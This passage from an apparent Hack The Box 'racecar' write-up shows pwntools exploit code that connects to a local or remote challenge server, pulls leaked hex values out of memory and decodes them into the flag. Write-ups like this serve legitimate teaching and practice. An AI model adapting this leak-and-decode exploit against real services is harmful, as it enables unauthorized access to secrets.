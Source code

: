 ```python
		if is_within_flag_format:
			flags.append(result.lstrip("0x").rstrip("\n"))

		count += 1

		s.close()

	# convert from hexadecimal to ASCII
	for flag in flags:
		final_result += p32(int(flag, base=16)).decode()

	print(final_result)

if __name__ == "__main__":
	main()
```

Now if we run it locally, we will get the dummy flag.

![](Images/RunExploitLocally.png)

Great! Let's fire up the HTB server that runs the challenge. Set the `isLocal` flag to `False` and adjust the host and port according to the HTB website.

```python
def main():
	isLocal = False

	suffix_flag_format = ascii_to_hex("}")

	suffix_is_found = False
	count = 1

	final_result = ""
	flags = []
	is_within_flag_format = False

	while not suffix_is_found:
		if isLocal:
			# reverse the string, so it will be in little endian format
			prefix_flag_format = ascii_to_hex("flag"[::-1])

			s = process("./racecar")
		else:
			# reverse the string, so it will be in little endian format
			prefix_flag_format = ascii_to_hex("HTB"[::-1])

			host = "167.172.54.11"
			port = 30988

			s = remote(host, port)
```